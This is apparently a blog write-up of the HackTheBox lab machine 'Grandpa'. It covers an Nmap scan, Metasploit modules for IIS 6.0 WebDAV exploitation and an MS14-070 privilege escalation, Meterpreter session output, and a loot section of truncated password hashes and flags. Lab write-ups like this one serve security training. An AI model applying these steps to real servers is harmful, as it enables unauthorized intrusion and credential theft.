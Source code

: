 [HackTheBox] Grandpa
===============
date: 04/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_grandpa/infocard.png)

This is a writeup for HTB VM [Grandpa](https://www.hackthebox.eu/home/machines/profile/13). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_grandpa/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Mon Nov  4 15:43:14 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.grandpa/results/10.10.10.14/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.grandpa/results/10.10.10.14/scans/xml/_quick_tcp_nmap.xml 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up, received user-set (0.057s latency).
Scanned at 2019-11-04 15:43:15 PST for 23s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unkown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Mon, 04 Nov 2019 23:43:43 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  4 15:43:38 2019 -- 1 IP address (1 host up) scanned in 23.46 seconds
```

2\. We look for IIS 6.0 vulnerabilities and find multiple WebDAV related hits:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_grandpa/screenshot01.png)  

### Findings
#### Open Ports
```
80/tcp  |  http  |  Microsoft IIS httpd 6.0
```

## Phase #2: Exploitation
1\. We decide to use the Metasploit `windows/iis/iis_webdav_scstoragepathfromurl` exploit and it successully gives us a Meterpreter shell:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_grandpa/screenshot02.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_grandpa/screenshot03.png)  

## Phase #2.5: Post Exploitation
```
ntauth/network@GRANPA> id
NT AUTHORITY\NETWORK SERVICE
ntauth/network@GRANPA>  
ntauth/network@GRANPA> uname
Computer        : GRANPA
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
ntauth/network@GRANPA>  
ntauth/network@GRANPA> ifconfig
Ethernet adapter Local Area Connection:
 Connection-specific DNS Suffix  . :
 IP Address. . . . . . . . . . . . : 10.10.10.14
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/network@GRANPA>  
ntauth/network@GRANPA> users
Administrator
Harry
```

## Phase #3: Privilege Escalation
1\. Since we have certain restrictions that stop us from running commands like `getuid`, we have to migrate to a different process. We find the PID for process `davcdata.exe` and migrate to it:  

![writeup.privesc.steps.1.1](/static/files/posts_htb_grandpa/screenshot04.png)  

2\. We can now use the Metasploit `multi/recon/local_exploit_suggester` module to look for privesc options:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_grandpa/screenshot05.png)  

3\. We tried a few exploits from this list and eventually the `windows/local/ms14_070_tcpip_ioctl` module worked and provided an elevated session:  

![writeup.privesc.steps.3.1](/static/files/posts_htb_grandpa/screenshot06.png)  

![writeup.privesc.steps.3.2](/static/files/posts_htb_grandpa/screenshot07.png)  

4\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
```
cat "C:\Documents and Settings\Harry\Desktop\user.txt"
cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_grandpa/screenshot08.png)  

## Loot
### Hashes
```
Administrator:500:0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a.................
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f589................
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c...............
Harry:1008:93c50499355883d1441208923e8628e6:031f5563e0ac4ba538e................
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b7.................
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f615.................
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e..................
```
### Flags
```
C:\Documents and Settings\Harry\Desktop\user.txt: bdff5ec67c3cff01................
C:\Documents and Settings\Administrator\Desktop\root.txt: 9359e905a2c35f..................
```

## References
* <https://www.hackthebox.eu/home/machines/profile/13>  
